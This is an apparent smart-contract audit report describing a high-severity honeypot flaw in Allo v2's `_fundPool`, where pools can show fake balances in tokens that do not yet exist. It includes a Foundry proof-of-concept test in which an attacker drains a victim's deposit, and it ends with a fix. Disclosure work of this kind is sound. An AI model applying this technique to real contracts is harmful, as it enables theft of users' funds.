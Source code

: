Damaged Cornflower Turkey

high

# Honeypot attack possible because lack of checks in '_fundPool()'
Pool creator can honeypot the funds of users by creating pools with fake balances.
## Vulnerability Detail
A user can fund pools using `_fundPool` in `Allo.sol`. 
```javascript
source:contracts/core/Allo.sol

// findings marked with <=
function _fundPool(uint256 _amount, uint256 _poolId, IStrategy _strategy) internal {
        uint256 feeAmount;
        uint256 amountAfterFee = _amount;

        Pool storage pool = pools[_poolId];
        address _token = pool.token;

        if (percentFee > 0) {
            feeAmount = (_amount * percentFee) / getFeeDenominator();
            amountAfterFee -= feeAmount;

	_transferAmountFrom(_token, TransferData({from: msg.sender, to: treasury, amount: feeAmount})); <= // uses SafeTransferLib
        }

        _transferAmountFrom(_token, TransferData({from: msg.sender, to: address(_strategy), amount: amountAfterFee})); <= // uses SafeTransferLib
        _strategy.increasePoolAmount(amountAfterFee);

        emit PoolFunded(_poolId, amountAfterFee, feeAmount);
    }
```
This function makes use of `SafeTransferLib`. 

However, `SafeTransferLib` does not check if the token is an EOA or not:
```javascript
source: lib/solady/src/utils/SafeTransferLib.sol

L10: /// - For ERC20s, this implementation won't check that a token has code,
L11: ///   responsibility is delegated to the caller.
```

This means funding a pool with a non-existent token will still succeed and the token balance of the pool will be updated with the non-existing tokens, effectively creating a pool with fake tokens. The `getPoolAmount` functions returns the fake balance, which can easily trick users.

Nowadays a lot of tokens are deterministic like the next Curve LP tokens, next tokens to be minted by the Optimism Bridge.

Here's a POC outlining an attack vector:

Add this to import to `Allo.t.sol`:
```javascript
source: test/foundry/core/Allo.t.sol

import {RFPSimpleStrategy} from "../../../contracts/strategies/rfp-simple/RFPSimpleStrategy.sol";
```

POC:
```javascript
source:test/foundry/core/Allo.t.sol

    // put this in test/foundry/core/Allo.t.sol
    // run using:
    // forge test --match-contract AlloTest --match-test test_Honeypot -vvvv
    function test_Honeypot() public {
        // Get the address of a deterministic token.
        // Deterministic tokens use CREATE2 or CREATE3
        // This makes it easy for anyone to predict what the next address will be.
        // The deterministic_token does not exist yet at this stage.
        address deterministic_token = makeAddr("deterministicToken");
        address malicious_user = makeAddr("maliciousUser");

        // Register a profile with the malicious user as owner and manager
        address[] memory pool_manager;
        pool_manager = new address[](1);
        pool_manager[0] = malicious_user;
        bytes32 ppId = _registry_.createProfile(
            1337, "Honeypot", Metadata({protocol: 1, pointer: "HoneyPot4Life"}), malicious_user, pool_manager 
        );

        RFPSimpleStrategy test_strategy = new RFPSimpleStrategy(address(allo()), "RFPSimpleStrategy");

        bytes memory init_data = abi.encode(100, false, false);

        vm.prank(malicious_user);
        allo().createPoolWithCustomStrategy(
            ppId,
            address(test_strategy),
            init_data,
            deterministic_token,
            100_000 * 1e18,
            metadata,
            pool_manager
        );

        // Let's say in 1000 blocks, the non existing token is finally live
        // The malicious user starts to sollicit people to fund this non-profit pool
        vm.warp(block.timestamp + 1000);

        // The deterministic token has now been created!
        // Alice uses the `getPoolAmount()` function to check the balance of the pool.
        // Console logs = 99000000000000000000000 
        address alice = makeAddr("alice");
        vm.startPrank(alice);
        console.log("Amount in Pool: %s",test_strategy.getPoolAmount());

        // Alice funds 10000 * 1e18 tokens. 
        allo().fundPool(1, 100_00 * 1e18);
        vm.stopPrank();
        
        // The malicious user can just call the withdraw function now and take the tokens
        // that Alice deposited. Honeypot succeeded.
        vm.startPrank(malicious_user);
        test_strategy.setPoolActive(false);
        test_strategy.withdraw(100_00 * 1e18);
    }
```
This is just one of the scenarios that is possible with deterministic tokens. There are also deterministic tokens on L2's. The team has stated that they want to launch on all EVM chains + zkSync Era.

## Impact
It is very easy for a malicious user to set traps, which can easily lead to a person losing their funds, especially since the `getPoolAmount()` returns the fake balance.

## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L502-L520
## Tool used
Manual Review

## Recommendation
Create a check that checks if the token used to create a pool is not an EOA.